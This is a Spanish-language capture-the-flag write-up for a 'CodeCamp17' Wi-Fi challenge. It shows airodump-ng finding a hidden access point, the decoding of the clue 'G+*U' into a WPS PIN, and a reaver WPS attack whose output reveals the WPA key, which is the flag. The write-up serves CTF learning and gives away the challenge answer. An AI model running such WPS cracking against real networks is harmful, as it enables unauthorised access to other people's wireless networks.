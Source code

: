 # The love is in the air

You are the G+*U to my <3

R: **CodeCamp17{aHR0cHM6Ly95b3V0dS5iZS9mUUdiWG1rU0Fycwo=}**


Hit: https://youtu.be/fP22QqI32qs?t=7m19s

---------------------------

#Solución

Durante el evento se habilitará un punto de acceso con el ESSID oculto. Haciendo un escaneo se puede ver que existe un AP oculto

```
$ airmon-ng start wlan0
$ airodump-ng mon0
CH 13 ][ Elapsed: 0 s ][ 2017-02-06 00:18
                                                                                                 
 BSSID              PWR  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID

 64:16:F0:E0:6F:CF  -45        5        0    0   1  54e  WPA2 CCMP   PSK  <length:  0>

 BSSID              STATION            PWR   Rate    Lost    Frames  Probe
```


Con herramientas como wash es facil darse cuenta que tiene activado WPS. Curiosamente, es posible realizar un ataque sin saber el ESSID del AP. Sin embargo, el proceso va a ser muy lento si no conocemos el PIN. La llave. The key.

G+*U no nos dice nada, ya que buscamos un pin de 8 dígitos numéricos decimales y eso son 4 caracteres ASCII. ¿Y si lo traducimos al decimal?

G+*U -> 71434285

```
$ reaver -i mon0 -b 64:16:F0:E0:6F:CF -vvv -p 71434285

Reaver v1.4-r119 WiFi Protected Setup Attack Tool
Copyright (c) 2011, Tactical Network Solutions, Craig Heffner <cheffner@tacnetsol.com>

[+] Waiting for beacon from 64:16:F0:E0:6F:CF
[+] Switching mon0 to channel 1
[+] Associated with 64:16:F0:E0:6F:CF (ESSID: (null))
[+] Trying pin 71434285
[+] Sending EAPOL START request
[+] Received identity request
[+] Sending identity response
[+] Received M1 message
[+] Sending M2 message
[+] Received M3 message
[+] Sending M4 message
[+] Received M5 message
[+] Sending M6 message
[+] Received M7 message
[+] Sending WSC NACK
[+] Sending WSC NACK
[+] Pin cracked in 3 seconds
[+] WPS PIN: '71434285'
[+] WPA PSK: 'CodeCamp17{aHR0cHM6Ly95b3V0dS5iZS9mUUdiWG1rU0Fycwo=}'
[+] AP SSID: 'love'
```
